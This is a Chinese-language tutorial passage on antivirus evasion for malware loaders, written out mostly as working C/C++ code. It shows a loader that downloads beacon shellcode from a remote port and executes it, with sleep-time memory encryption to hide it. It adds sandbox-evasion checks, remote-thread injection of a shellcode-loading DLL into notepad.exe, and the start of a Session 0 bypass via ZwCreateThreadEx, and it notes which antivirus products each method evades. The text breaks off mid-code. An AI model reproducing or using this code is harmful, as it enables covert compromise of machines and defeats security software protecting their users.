项目地址：[https://github.com/klezVirus/SysWhispers3](https://github.com/klezVirus/SysWhispers3)  
它的主要提升是支持使用 egg_hunter， 先用垃圾指令代替 syscall，在运行时再从内存中找出来替换 syscall。以及使用 jumper & jumper_randomized 来进行间接 syscall。  
`-m {embedded,egg_hunter,jumper,jumper_randomized} //任选一种method`  
`-o OUT_FILE //输出路径`  
使用步骤：  
例：导出NtAllocateVirtualMemory函数：  
`python syswhispers.py --functions NtAllocateVirtualMemory -c jumper -o funs/VirtualMemory`  
导入VS

+ 将生成的H/C/ASM文件拷贝到项目目录中；
+ 在Visual Studio中，点击“Project->Build Customizations...”，然后启用MASM；
+ 在“Solution Exlorer”中，将.h和.c/.asm文件分别以Header和源文件的形式添加到项目中；
+ 点击ASM文件的属性，将“Item Type”设置为“Microsoft Macro Assembler”；





代码示例：  
先来头文件看函数名称



直接使用函数



```plain
#include <winsock2.h>
#include <ws2tcpip.h>
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include "detours.h"
#include <iostream>
#include "jumper.h"

#pragma comment(lib, "ntdll")
//#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

#pragma comment (lib, "Ws2_32.lib")
#pragma comment (lib, "Mswsock.lib")
#pragma comment (lib, "AdvApi32.lib")

//#ifdef _WIN64
//#pragma comment(lib,"detours.x64.lib")
//#else
//#pragma comment(lib,"detours.x86.lib")
//#endif

#define DEFAULT_BUFLEN 4096


// 定义内存页属性结构体
typedef struct {
    LPVOID address;     // 内存地址
    DWORD size;         // 内存大小
}MemoryAttrib;

// 定义内存信息结构体
typedef struct {
    MemoryAttrib memoryPage[3]; // 最多存储3个内存页属性
    int index;                  // 内存下标
    int key;                    // 加解密key
    BOOL isScanMemory;          // 是否已查找内存页信息
    BOOL isEncrypt;             // 是否已加密
}MemoryInfo;

MemoryInfo memoryInfo;


// 挂钩
void HookSleep();
// 脱钩
void UnHookSleep();

DWORD getShellcode_Run(char* host, char* port, char* resource, OUT char* recvbuf_ptr) {

    DWORD oldp = 0;
    //BOOL returnValue;

    size_t origsize = strlen(host) + 1;
    const size_t newsize = 100;
    size_t convertedChars = 0;
    wchar_t Whost[newsize];
    mbstowcs_s(&convertedChars, Whost, origsize, host, _TRUNCATE);


    WSADATA wsaData;
    SOCKET ConnectSocket = INVALID_SOCKET;
    struct addrinfo* result = NULL,
        * ptr = NULL,
        hints;
    char sendbuf[MAX_PATH] = "";
    lstrcatA(sendbuf, "GET /");
    lstrcatA(sendbuf, resource);

    char recvbuf[DEFAULT_BUFLEN];
    memset(recvbuf, 0, DEFAULT_BUFLEN);
    int iResult;
    int recvbuflen = DEFAULT_BUFLEN;


    // Initialize Winsock
    iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
    if (iResult != 0) {
        printf("WSAStartup failed with error: %d\n", iResult);
        return 0;
    }

    ZeroMemory(&hints, sizeof(hints));
    hints.ai_family = PF_INET;
    hints.ai_socktype = SOCK_STREAM;
    hints.ai_protocol = IPPROTO_TCP;

    // Resolve the server address and port
    iResult = getaddrinfo(host, port, &hints, &result);
    if (iResult != 0) {
        printf("getaddrinfo failed with error: %d\n", iResult);
        WSACleanup();
        return 0;
    }

    // Attempt to connect to an address until one succeeds
    for (ptr = result; ptr != NULL; ptr = ptr->ai_next) {

        // Create a SOCKET for connecting to server
        ConnectSocket = socket(ptr->ai_family, ptr->ai_socktype,
            ptr->ai_protocol);
        if (ConnectSocket == INVALID_SOCKET) {
            printf("socket failed with error: %ld\n", WSAGetLastError());
            WSACleanup();
            return 0;
        }

        // Connect to server.
        printf("[+] Connect to %s:%s", host, port);
        iResult = connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
        if (iResult == SOCKET_ERROR) {
            closesocket(ConnectSocket);
            ConnectSocket = INVALID_SOCKET;
            continue;
        }
        break;
    }

    freeaddrinfo(result);

    if (ConnectSocket == INVALID_SOCKET) {
        printf("Unable to connect to server!\n");
        WSACleanup();
        return 0;
    }

    // Send an initial buffer
    iResult = send(ConnectSocket, sendbuf, (int)strlen(sendbuf), 0);
    if (iResult == SOCKET_ERROR) {
        printf("send failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return 0;
    }

    printf("\n[+] Sent %ld Bytes\n", iResult);

    // shutdown the connection since no more data will be sent
    iResult = shutdown(ConnectSocket, SD_SEND);
    if (iResult == SOCKET_ERROR) {
        printf("shutdown failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return 0;
    }


    memset(recvbuf_ptr, 0, 400000);
    DWORD total_received = 0;
    // Receive until the peer closes the connection
    do {

        iResult = recv(ConnectSocket, (char*)recvbuf, recvbuflen, 0);
        if (iResult > 0)
        {
            printf("[+] Received %d Bytes\n", iResult);
            memcpy(recvbuf_ptr, recvbuf, iResult);
            recvbuf_ptr += iResult; // 将指针移动到接收到的数据的末尾
            total_received += iResult; // 更新接收到的总字节数
            printf("[+] Received total %d Bytes\n", total_received);
        }

        else if (iResult == 0)
            printf("[+] Connection closed\n");
        else
            printf("recv failed with error: %d\n", WSAGetLastError());


        //RunShellcode(recvbuf, recvbuflen);

    } while (iResult > 0);


    // cleanup
    closesocket(ConnectSocket);
    WSACleanup();

    return total_received;
}

// 查找内存页
void ScanMemoryMap()
{
    // 内存块信息结构体
    MEMORY_BASIC_INFORMATION mbi;

    LPVOID lpAddress = 0;
    HANDLE hProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, GetCurrentProcessId());

    int* index = &memoryInfo.index;

    while (VirtualQueryEx(hProcess, lpAddress, &mbi, sizeof(mbi)))
    {
        // 查找可读可写可执行内存页
        if (mbi.Protect == PAGE_EXECUTE_READWRITE || mbi.Protect == PAGE_EXECUTE && mbi.Type == MEM_PRIVATE)//私有内存（MEM_PRIVATE）
        {
            // 保存内存信息
            memoryInfo.memoryPage[*index].address = mbi.BaseAddress;
            memoryInfo.memoryPage[*index].size = (DWORD)mbi.RegionSize;
            //printf("memoryInfo.BaseAddr = %p address = %p\n", memoryInfo.memoryPage[*index].address, mbi.BaseAddress);
            (*index)++;

            if ((*index) >= 3)
                break;

        }
        // 更新到下一个内存页
        lpAddress = (LPVOID)((DWORD_PTR)mbi.BaseAddress + mbi.RegionSize);
    }

    // 更新为已扫描内存
    memoryInfo.isScanMemory = TRUE;


    /* *
    * memoryInfo.index = 2 使用了Stageless Beacon
    * memoryInfo.index = 3 使用了Stage Beacon
    * */


    // 释放shellcode内存页
    VirtualFree(memoryInfo.memoryPage[0].address, 0, MEM_RELEASE);

    printf("Shellcode Address at 0x%p\n\n", memoryInfo.memoryPage[memoryInfo.index - 1].address);
}

typedef NTSTATUS(WINAPI* _SystemFunction033)(
    struct ustring* memoryRegion,
    struct ustring* keyPointer);

struct ustring {
    DWORD Length;
    DWORD MaximumLength;
    PUCHAR Buffer;
} scdata, key;
// 加解密Beacon
void EncryptDecrypt()
{
    // 定位到真正的Beacon内存页
    MemoryAttrib Beacon = memoryInfo.memoryPage[memoryInfo.index - 1];
    DWORD bufSize = Beacon.size;
    unsigned int* buffer = (unsigned int*)(Beacon.address);
    int bufSizeRounded = (bufSize - (bufSize % sizeof(unsigned int))) / 4;

    // 对Beacon进行加密或解密
    _SystemFunction033 SystemFunction033 = (_SystemFunction033)GetProcAddress(LoadLibrary("advapi32"), "SystemFunction033");
    char str_key[] = "132abc";
    key.Buffer = (PUCHAR)(&str_key);
    key.Length = sizeof(str_key);
    scdata.Buffer = (PUCHAR)buffer;
    scdata.Length = bufSizeRounded;
    SystemFunction033(&scdata, &key);

    DWORD oldProt;
    memoryInfo.isEncrypt = !memoryInfo.isEncrypt;

    // 已加密
    if (memoryInfo.isEncrypt == TRUE)
    {
        // 将内存页设置为可读可写
        VirtualProtect(Beacon.address, Beacon.size, PAGE_READWRITE, &oldProt);
        printf("[>] Flipped to RW.\n");
    }

    // 未加密
    if (memoryInfo.isEncrypt == FALSE)
    {
        // 将内存页设置为可读可写可执行
        VirtualProtect(Beacon.address, Beacon.size, PAGE_EXECUTE_READWRITE, &oldProt);
        memoryInfo.key = rand();    // 更新密钥
        printf("[<] Flipped back to RX/RWX.\n");
    }

    printf("%s\n\n", memoryInfo.isEncrypt ? "[>] Encoding..." : "[<] Decoding...");
}

// 定义Sleep原函数
VOID(WINAPI* OldSleep)(DWORD dwMilliseconds) = Sleep;
VOID WINAPI MySleep(DWORD dwMilliseconds)
{
    UnHookSleep();

    if (!memoryInfo.isScanMemory)
        ScanMemoryMap();

    printf("XOR32 key: %X\n", memoryInfo.key);
    EncryptDecrypt();

    printf("===> MySleep(%d)\n\n", dwMilliseconds);
    Sleep(dwMilliseconds);

    EncryptDecrypt();
    HookSleep();
}

// 挂钩
void HookSleep()
{
    DetourRestoreAfterWith();
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    DetourAttach((void**)&OldSleep, MySleep);
    DetourTransactionCommit();
}
// 脱钩
void UnHookSleep()
{
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    DetourDetach((void**)&OldSleep, MySleep);
    DetourTransactionCommit();
}
// 初始化内存页信息
void InitMemoryInfo()
{
    srand(time(NULL));
    memoryInfo.index = 0;
    memoryInfo.isScanMemory = FALSE;
    memoryInfo.isEncrypt = FALSE;
    memoryInfo.key = rand();    // 随机key
}
BOOL RegkeyExist(HKEY hKey, char* regkey_s) {
    HKEY regkey;
    DWORD ret = RegOpenKeyEx(hKey, regkey_s, 0, KEY_READ, &regkey);
    if (ret == ERROR_SUCCESS) {
        RegCloseKey(regkey);
        return TRUE;
    }
    return FALSE;
}

int main(int argc, char** argv)
{
    char* recvbuf_ptr = (char*)malloc(400000);
    char* ip = "";
    char* RemotePort = "5002";
    char* Resource = "bea.bin";
    int recvbuf_size = getShellcode_Run(ip, RemotePort, Resource, recvbuf_ptr);

    HANDLE hProc = GetCurrentProcess();
    LPVOID base_addr = NULL;
    HANDLE thandle = NULL;
    NTSTATUS NTAVM = Sw3NtAllocateVirtualMemory(
        hProc,
        &base_addr,
        0,
        (PSIZE_T)&recvbuf_size,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_READWRITE);
    //LPVOID lpAddress = VirtualAlloc(NULL, recvbuf_size, MEM_COMMIT, PAGE_READWRITE);
    if (!base_addr) return 0;

    //memcpy(base_addr, recvbuf_ptr, recvbuf_size);
    Sw3NtWriteVirtualMemory(hProc, base_addr, recvbuf_ptr, recvbuf_size,NULL);

    DWORD oldProtect;
    //VirtualProtect(base_addr, recvbuf_size, PAGE_EXECUTE, &oldProtect);
    Sw3NtProtectVirtualMemory(hProc,&base_addr, (PSIZE_T)&recvbuf_size, PAGE_EXECUTE, &oldProtect);

    InitMemoryInfo();
    HookSleep();
    (*(int(*)()) base_addr)();

    //if (RegkeyExist(HKEY_LOCAL_MACHINE, "SOFTWARE\\WOW6432Node\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\WeChat"))
    //{
    //  (*(int(*)()) lpAddress)();
    //}


}
```

## 4.反沙箱
安全沙箱技术是一种用于隔离应用程序或进程的安全机制，它是通过在受控环境中运行文件或程序，观察其行为并检测潜在的恶意活动来实现的。  
杀软沙箱的运行过程如下：

1. 文件提交：用户或系统将可疑文件提交给杀软沙箱进行分析。
2. 环境隔离：杀软沙箱会在一个受控的环境中运行可疑文件，通常是在虚拟机或容器中。这个环境与真实环境隔离开，以防止潜在的恶意文件对系统造成损害。
3. 动态行为分析：在沙箱环境中，可疑文件会被执行或打开，以触发其潜在的恶意行为。杀软沙箱会监控文件的行为，包括文件的读写操作、网络通信、系统调用等。
4. 恶意行为检测：杀软沙箱会对文件的行为进行分析，并与已知的恶意行为进行比对。它会检测是否有病毒、恶意软件、木马或其他恶意活动的迹象。
5. 报告生成：杀软沙箱会生成分析报告，包括文件的行为日志、检测结果和风险评估等信息。这些报告可以帮助安全专家或系统管理员了解文件的威胁程度，并采取相应的安全措施。

## 4x0 延时执行
出于性能的考虑，沙箱不可能一直等待一个进程执行，因此我们把进程堵塞一段时间等沙箱分析完再把马运行起来  
执行shellcode前`sleep(10000)`或者`WaitForSingleObject(GetCurrentThread(), 10000);`  
久一点也许可以绕过火绒（比较low的内存扫描和沙箱）  
但是后来就被沙箱使用加速，和谐了

## 4x1 检测微信
```plain
#include <windows.h>

BOOL RegkeyExist(HKEY hKey, wchar_t* regkey_s) {
    HKEY regkey;
    DWORD ret = RegOpenKeyEx(hKey, regkey_s, 0, KEY_READ, &regkey);
    if (ret == ERROR_SUCCESS) {
        RegCloseKey(regkey);
        return TRUE;
    }
    return FALSE;
}

int main() {
    if (RegkeyExist(HKEY_LOCAL_MACHINE, _wcsdup(L"SOFTWARE\\WOW6432Node\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\WeChat"))) {
        LoadShellcode();
    }
}
```

## 4x2 传参检测
```plain
#include <iostream>

int main(int argc, char* argv[]) {
    if (argc >= 3) {
        if (atoi(argv[1]) + atoi(argv[2]) == 12 && atoi(argv[1]) * atoi(argv[2]) == 35) {
            LoadShellCode();
        }
    }
}
```

## 4x3 文件检测
```plain
#include <windows.h>

// 检测文件是否存在
BOOL isFileExists(wchar_t* szPath) {
    DWORD dwAtrribt = GetFileAttributes(szPath); 
    return (dwAtrribt != INVALID_FILE_ATTRIBUTES) && !(dwAtrribt & FILE_ATTRIBUTE_DIRECTORY);
}

// 检测文件夹是否存在
BOOL isDirExists(wchar_t* szPath) {
    DWORD dwAtrribt = GetFileAttributes(szPath);
    return (dwAtrribt != INVALID_FILE_ATTRIBUTES) && (dwAtrribt & FILE_ATTRIBUTE_DIRECTORY);
}

int main() {
    if (isFileExists(_wcsdup(L"1.txt")) && isDirExists(_wcsdup(L"1"))) {
        LoadShellcode();
    }
}
```

## 4x4睡眠时间准确检测
看到一个有意思的思路，让exe睡眠十秒，然后检测是否睡眠了10秒，因为有些沙箱为了防止我们利用第一种延时执行，会加速沙箱的时间。

```plain
#include <iostream>
#include <chrono>
#include <thread>

bool timeSleep() {
    // 记录起始时间点
    auto start = std::chrono::steady_clock::now();

    // 休眠 10 秒钟
    std::this_thread::sleep_for(std::chrono::seconds(10));

    // 计算经过的时间
    auto end = std::chrono::steady_clock::now() - start;

    // 检查是否至少休眠了 10 秒钟
    if (end >= std::chrono::seconds(10)) {
        return true;
    } else {
        return false;
    }
}
```

## 5.shellcode注入
## 5x0 远程线程注入dll
通过在其他进程创建一个远程线程，执行我们的shellcode加载器dll

#### 效果：
目前dll的shellcode加载器使用了远程加载，能大概绕过火绒静动态，defender的静态。360动静态全杀

### 5x0x0 直接看注入exe代码：
```plain
#include <iostream>
#include <tchar.h>
#include <windows.h>
#include <TlHelp32.h>


DWORD GetProcessPID(LPCTSTR lpProcessName)
{
    DWORD Ret = 0;
    PROCESSENTRY32 p32;
    //PROCESSENTRY32是一个存储进程信息的结构体类型，这里定义了一个名为 p32 的 PROCESSENTRY32 类型的变量
    HANDLE lpSnapshot = ::CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    //使用作用域解析运算符::来明确指定全局命名空间中的函数,这样可以避免命名冲突
    if (lpSnapshot == INVALID_HANDLE_VALUE)
        //INVALID_HANDLE_VALUE是CreateToolhelp32Snapshot函数的返回值
    {
        printf("获取进程快照失败,请重试! Error:%d", ::GetLastError());
        return Ret;
    }
    p32.dwSize = sizeof(PROCESSENTRY32);
    // p32.dwSize是结构体的大小，需要在使用前设置
    ::Process32First(lpSnapshot, &p32);
    do {
        if (!lstrcmp(p32.szExeFile, lpProcessName))
        {
            Ret = p32.th32ProcessID;
            break;
        }
    } while (::Process32Next(lpSnapshot, &p32));
    ::CloseHandle(lpSnapshot);
    return Ret;
}
DWORD RemoteThreadInject(DWORD Pid, LPCWSTR DllName)
{
    DWORD size = 0;
    DWORD DllAddr = 0;
    // 1.打开进程
    HANDLE hprocess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Pid);
    if (hprocess == NULL)
    {
        printf("OpenProcess error!\n");
        return FALSE;
    }
    size = (wcslen(DllName) + 1) * sizeof(TCHAR);
    // 2.申请空间
    LPVOID pAllocMemory = VirtualAllocEx(hprocess, NULL, size, MEM_COMMIT,
        PAGE_READWRITE);
    if (pAllocMemory == NULL)
    {
        printf("VirtualAllocEx error!\n");
        return FALSE;
    }
    // 3.写入内存
    BOOL Write = WriteProcessMemory(hprocess, pAllocMemory, DllName, size,
        NULL);
    if (pAllocMemory == 0)
    {
        printf("WriteProcessMemory error!\n");
        return FALSE;
    }
    // 4.获取LoadLibrary - kenrel32.dll
    FARPROC pThread = GetProcAddress(GetModuleHandle(L"kernel32.dll"),
        "LoadLibraryW");
    LPTHREAD_START_ROUTINE addr = (LPTHREAD_START_ROUTINE)pThread;
    // 5.创建线程
    HANDLE hThread = CreateRemoteThread(hprocess, NULL, 0, addr, pAllocMemory,
        0, NULL);
    if (hThread == NULL)
    {
        printf("CreateRemoteThread error!\n");
        return FALSE;
    }
    // 6.等待线程函数结束
    WaitForSingleObject(hThread, -1);
    // 7.释放DLL空间
    VirtualFreeEx(hprocess, pAllocMemory, size, MEM_DECOMMIT);
    // 8.关闭句柄
    CloseHandle(hprocess);
    return TRUE;
}
int main()
{
    TCHAR szFilePath[MAX_PATH];
    GetModuleFileName(NULL, szFilePath, MAX_PATH);

    // 从路径中提取目录路径
    std::wstring strFilePath(szFilePath);
    std::wstring strDirectory = strFilePath.substr(0, strFilePath.find_last_of(L"\\") + 1);

    // 构建 Shellcode.dll 的路径
    std::wstring strDllPath = strDirectory + L"Shellcode.dll";

    // 获取 notepad.exe 进程的 PID，并注入 Shellcode.dll
    DWORD PID = GetProcessPID(L"notepad.exe");
    DWORD TMP = RemoteThreadInject(PID, strDllPath.c_str());
}
```

#### vs编译的程序在其他pc环境下运行报错丢失VCRUNTIME140D.dll
在VS工程项目中，设置 属性—>配置属性—>C/C++ —>代码生成—>运行库，Release 选择 多线程(/MT), Debug 选择 多线程调试 (/MTd)

#### 代码解释：
+ 第一个函数GetProcessPID获取进程PID
+ 第二个函数先通过OpenProcess打开我们想注入的进程A
+ VirtualAllocEx远程在进程A申请一块空间
+ WriteProcessMemory在申请的空间写入dllname
+ GetProcAddress获取LoadLibraryW函数的地址
+ CreateRemoteThread远程创建线程，主要是第三个第四个参数，第三个参数是LoadLibraryW函数的地址，第四个参数是我们要传给LoadLibraryW的参数，也就是我们的dllname，也就是这条线程执行LoadLibraryW函数，参数是dllname。
+ 最后在main函数获取shellcode.dll的路径，获取PID并执行RemoteThreadInject

### 5x0x1 dll加载shellcode的代码
`**注意我们需要在dll的主函数DllMain创建线程去加载我们的shellcode，而不是直接在DllMain去加载，不然程序会堵塞**`  
dllmain.cpp

```plain
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

LPVOID shellcode_addr;

void fun()
{
    char* recvbuf_ptr = (char*)malloc(400000);
    char* ip = "";
    char* RemotePort = "5002";
    char* Resource = "beacon64.bin";

    //getShellcode_Run(argv[1], argv[2], argv[3]);
    int recvbuf_size = getShellcode_Run(ip, RemotePort, Resource, recvbuf_ptr);

    shellcode_addr = VirtualAlloc(NULL, recvbuf_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    memcpy(shellcode_addr, recvbuf_ptr, recvbuf_size);
    DWORD Oldprotect = 0;
    VirtualProtect(shellcode_addr, recvbuf_size, PAGE_EXECUTE_READWRITE, &Oldprotect);

    ((void(*)())shellcode_addr)();
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        unsigned long ulThreadId = 0;
        HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)fun, NULL, 0, &ulThreadId);
    }
    break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

pch.cpp

```plain
// pch.cpp: 与预编译标头对应的源文件

#include "pch.h"
#include <winsock2.h>
#include <ws2tcpip.h>
#include <Windows.h>
#include <stdio.h>

#pragma comment(lib, "ntdll")

#pragma comment (lib, "Ws2_32.lib")
#pragma comment (lib, "Mswsock.lib")
#pragma comment (lib, "AdvApi32.lib")


#define NtCurrentProcess()     ((HANDLE)-1)
#define DEFAULT_BUFLEN 4096

#ifndef NT_SUCCESS
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#endif


// 当使用预编译的头时，需要使用此源文件，编译才能成功。
DWORD getShellcode_Run(char* host, char* port, char* resource, OUT char* recvbuf_ptr) {

    DWORD oldp = 0;
    BOOL returnValue;

    size_t origsize = strlen(host) + 1;
    const size_t newsize = 100;
    size_t convertedChars = 0;
    wchar_t Whost[newsize];
    mbstowcs_s(&convertedChars, Whost, origsize, host, _TRUNCATE);


    WSADATA wsaData;
    SOCKET ConnectSocket = INVALID_SOCKET;
    struct addrinfo* result = NULL,
        * ptr = NULL,
        hints;
    char sendbuf[MAX_PATH] = "";
    lstrcatA(sendbuf, "GET /");
    lstrcatA(sendbuf, resource);

    char recvbuf[DEFAULT_BUFLEN];
    memset(recvbuf, 0, DEFAULT_BUFLEN);
    int iResult;
    int recvbuflen = DEFAULT_BUFLEN;


    // Initialize Winsock
    iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
    if (iResult != 0) {
        printf("WSAStartup failed with error: %d\n", iResult);
        return 0;
    }

    ZeroMemory(&hints, sizeof(hints));
    hints.ai_family = PF_INET;
    hints.ai_socktype = SOCK_STREAM;
    hints.ai_protocol = IPPROTO_TCP;

    // Resolve the server address and port
    iResult = getaddrinfo(host, port, &hints, &result);
    if (iResult != 0) {
        printf("getaddrinfo failed with error: %d\n", iResult);
        WSACleanup();
        return 0;
    }

    // Attempt to connect to an address until one succeeds
    for (ptr = result; ptr != NULL; ptr = ptr->ai_next) {

        // Create a SOCKET for connecting to server
        ConnectSocket = socket(ptr->ai_family, ptr->ai_socktype,
            ptr->ai_protocol);
        if (ConnectSocket == INVALID_SOCKET) {
            printf("socket failed with error: %ld\n", WSAGetLastError());
            WSACleanup();
            return 0;
        }

        // Connect to server.
        printf("[+] Connect to %s:%s", host, port);
        iResult = connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
        if (iResult == SOCKET_ERROR) {
            closesocket(ConnectSocket);
            ConnectSocket = INVALID_SOCKET;
            continue;
        }
        break;
    }

    freeaddrinfo(result);

    if (ConnectSocket == INVALID_SOCKET) {
        printf("Unable to connect to server!\n");
        WSACleanup();
        return 0;
    }

    // Send an initial buffer
    iResult = send(ConnectSocket, sendbuf, (int)strlen(sendbuf), 0);
    if (iResult == SOCKET_ERROR) {
        printf("send failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return 0;
    }

    printf("\n[+] Sent %ld Bytes\n", iResult);

    // shutdown the connection since no more data will be sent
    iResult = shutdown(ConnectSocket, SD_SEND);
    if (iResult == SOCKET_ERROR) {
        printf("shutdown failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return 0;
    }


    memset(recvbuf_ptr, 0, 400000);
    DWORD total_received = 0;
    // Receive until the peer closes the connection
    do {

        iResult = recv(ConnectSocket, (char*)recvbuf, recvbuflen, 0);
        if (iResult > 0)
        {
            printf("[+] Received %d Bytes\n", iResult);
            memcpy(recvbuf_ptr, recvbuf, iResult);
            recvbuf_ptr += iResult; // 将指针移动到接收到的数据的末尾
            total_received += iResult; // 更新接收到的总字节数
            printf("[+] Received total %d Bytes\n", total_received);
        }

        else if (iResult == 0)
            printf("[+] Connection closed\n");
        else
            printf("recv failed with error: %d\n", WSAGetLastError());


        //RunShellcode(recvbuf, recvbuflen);

    } while (iResult > 0);


    // cleanup
    closesocket(ConnectSocket);
    WSACleanup();

    return total_received;
}
```

pch.h

```plain
#ifndef PCH_H
#define PCH_H

// 添加要在此处预编译的标头
#include "framework.h"
#include <winsock2.h>
#include <ws2tcpip.h>
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>


#pragma comment(lib, "ntdll")

#pragma comment (lib, "Ws2_32.lib")
#pragma comment (lib, "Mswsock.lib")
#pragma comment (lib, "AdvApi32.lib")

DWORD getShellcode_Run(char* host, char* port, char* resource, OUT char* recvbuf_ptr);
#endif //PCH_H
```

### 5x0x2 使用agrv优化loader
注意第一行`int _tmain(int argc,TCHAR* argv[])`，这里字符集的问题很多，建议使用unicode，他在内存中是宽字节存储，所以打印需要`wprintf`函数

```plain
int _tmain(int argc,TCHAR* argv[])
{
    if (argc != 3) {
        std::cerr << "Usage: " << argv[0] << " <ProcessName> <DllPath>" << std::endl;
        return 1;
    }

    // 从命令行参数中获取进程名称和 DLL 文件路径
    //wprintf(L"%s", argv[1]);

    // 获取当前程序的路径
    TCHAR szFilePath[MAX_PATH];
    GetModuleFileName(NULL, szFilePath, MAX_PATH);

    // 从路径中提取目录路径
    std::wstring strFilePath(szFilePath);
    std::wstring strDirectory = strFilePath.substr(0, strFilePath.find_last_of(L"\\") + 1);

    // 构建 Shellcode.dll 的路径
    std::wstring strDllFullPath = strDirectory + argv[2];

    if (argc == 3) {
        DWORD PID = 0;
        PID = GetProcessPID(argv[1]);
        std::wcout << L"Process PID: " << PID << std::endl;
        DWORD TMP = RemoteThreadInject(PID, strDllFullPath.c_str());
        std::wcout << L"RemoteThreadInject result: " << TMP << std::endl;
    }
    else {
        std::cerr << "fail." << std::endl;
    }

    return 0;


    // 获取 notepad.exe 进程的 PID，并注入 Shellcode.dll

}
```

### 5x0x3 这是使用多字节字符集的代码
```plain
int _tmain(int argc,TCHAR* argv[])
{
    if (argc != 3) {
        std::cerr << "Usage: " << argv[0] << " <ProcessName> <DllPath>" << std::endl;
        return 1;
    }

    // 从命令行参数中获取进程名称和 DLL 文件路径
    //wprintf(L"%s", argv[1]);

    // 获取当前程序的路径
    TCHAR szFilePath[MAX_PATH];
    GetModuleFileName(NULL, szFilePath, MAX_PATH);

    // 从路径中提取目录路径
    std::string strFilePath(szFilePath);
    std::string strDirectory = strFilePath.substr(0, strFilePath.find_last_of("\\") + 1);

    // 构建 Shellcode.dll 的路径
    std::string strDllFullPath = strDirectory + argv[2];

    if (argc == 3) {
        DWORD PID = 0;
        //printf("%s", argv[1]);
        PID = GetProcessPID(argv[1]);
        std::cout << "Process PID: " << PID << std::endl;
        DWORD TMP = RemoteThreadInject(PID, strDllFullPath.c_str());
        std::cout << "RemoteThreadInject result: " << TMP << std::endl;
    }
    else {
        std::cerr << "fail." << std::endl;
    }

    return 0;

}
```

如果是打印整形的话可能还需要使用`_tstol`转一下

## 5x1 突破Session 0 隔离
注入系统进程时，上面的远程线程注入就用不了了，所以我们需要换一个未定义的底层函数`ZwCreateThreadEx`来进行注入

### Session 0
服务代表操作系统的核心组件和服务，例如用户登录和注销服务、Windows服务管理器、本地安全权限维护、设备驱动程序等  
应用程序代表用户会话（非管理员权限）  
在Windows XP、Windows Server 2003，以及更老版本的Windows操作系统中服务和应用程序使用相同的会话（Session）运行，而这个会话是由第一个登录到控制台的用户启动的。该会话就叫做Session 0，如下图所示，在Windows Vista之前，Session 0不仅包含服务，也包含标准用户应用程序



从Windows Vista开始，只有服务可以托管到Session 0中，用户应用程序和服务之间会被隔离，Session 0 隔离的目的是防止服务和系统级进程受到来自用户模式程序的恶意攻击，这些攻击可能会利用服务的特权来对系统进行潜在的破坏。通过将系统服务和用户模式应用程序隔离到不同的会话中，可以减少潜在的安全威胁，提高系统的整体安全性。

### 5x1x0 IDA反汇编跟CreateRemoteThread函数
`kernel32!CreateRemoteThread`  
可以看到对 CreateRemoteThread 的参数进行一些处理，由原来的7个参数扩展到了8个参数，并且对dwCreationFlags参数进行了一些安全处理，规避了系统规定参数外的无效参数。然后将参数转发到KERNELBASE模块  
点一下红色的函数跳转到kernelbase.dll



导出表可以看是哪个dll



`kernelbase!CreateRemoteThreadEx`  
重新打开一个新的kernelbase.dll文件，找到CreateRemoteThreadEx  
点空格可以按流程图看，就不用自己去判断汇编代码因为汇编代码有jz等跳转代码，只看汇编需要一步一步去跟，也可以按tab键用伪代码看  
直到找到一个跟CreateRemoteThread比较相近的函数，还是ntdll的函数，那么就是3环里最后一个函数了



`ntdll!NtCreateThreadEx`



`kernel32!CreateRemoteThread` -> `kernelbase!CreateRemoteThreadEx`-> `ntdll!NtCreateThreadEx` -> `syscall` -> `内核` -> `SSDT表`

### 5x1x1 突破session 0 隔离
由于SESSION 0隔离机制在内核6.0之后（vista、7、8...）,当创建一个进程后，并不会立即运行，通过先挂起进程，查看要运行的进程所在会话层之后再决定是否恢复进程运行（待逆向观察）  
`ZwCreateThreadEx` 函数可以突破SESSION 0 隔离，将DLL注入到SESSION 0 隔离的系统服务进程中，CreateRemoteThread 注入系统进程会失败的原因是因为调用 ZwCreateThreadEx 创建远程线程时，第七个参数CreateThreadFlags 为1，他会导致线程创建完成后一直挂起无法恢复进程运行，导致DLL注入失败。但是我们自己调用`ZwCreateThreadEx` 再给第七个参数传入0即可

#### 代码实现：
其实就是更换了远程线程注入的函数`ZwCreateThreadEx`

```plain
#include <iostream>
#include <tchar.h>
#include <windows.h>
#include <TlHelp32.h>


DWORD GetProcessPID(LPCTSTR lpProcessName)
{
    DWORD Ret = 0;
    PROCESSENTRY32 p32;
    //PROCESSENTRY32是一个存储进程信息的结构体类型，这里定义了一个名为 p32 的 PROCESSENTRY32 类型的变量
    HANDLE lpSnapshot = ::CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    //使用作用域解析运算符::来明确指定全局命名空间中的函数,这样可以避免命名冲突
